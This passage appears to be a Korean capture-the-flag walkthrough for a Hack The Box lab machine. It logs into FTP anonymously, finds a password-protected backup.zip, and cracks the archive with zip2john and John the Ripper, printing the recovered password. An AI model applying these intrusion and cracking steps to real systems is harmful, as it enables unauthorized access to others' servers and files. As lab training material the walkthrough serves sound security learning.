 열려 있는 ftp 서비스에 익명으로 접근해보니 성공적으로 연결되었다. 연결 이후 존재하는 파일을 다운로드 하였다.
``` bash
┌──(root㉿9048af13b510)-[/]
└─# ftp anonymous@10.129.19.142
Connected to 10.129.19.142.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10906|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

다운로드 한 파일을 압축해제 하려 했으나 암호가 걸려있다. 파일 리스트만 확인해보니 index.php, style.css 이렇게 2개 파일이 존재하고 있다.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:

┌──(root㉿9048af13b510)-[/htb]
└─# unzip -l backup.zip
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     2594  2020-02-03 10:57   index.php
     3274  2020-02-03 19:04   style.css
---------                     -------
     5868                     2 files
```

압축 파일에 대해 패스워드를 크랙하기 위해 john the ripper를 사용할 수 있다. 아래와 같이 zip2john와 john을 활용해보자.
``` bash
┌──(root㉿9048af13b510)-[/htb]
└─# zip2john backup.zip >hash.txt
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8

┌──(root㉿9048af13b510)-[/htb]
└─# cat hash.txt
backup.zip:$pkzip$2*1*1*0*8*24*5722*543fb39ed1a919ce7b58641a238e00f4cb3a826cfb1b8f4b225aa15c4ffda8fe72f60a82*2*0*3da*cca*1b1ccd6a*504*43*8*3da*989a*...

┌──(root㉿9048af13b510)-[/htb]
└─# john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
741852963        (backup.zip)
1g 0:00:00:00 DONE 2/3 (2024-02-26 14:00) 11.11g/s 2505Kp/s 2505Kc/s 2505KC/s 123456..Sssing
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
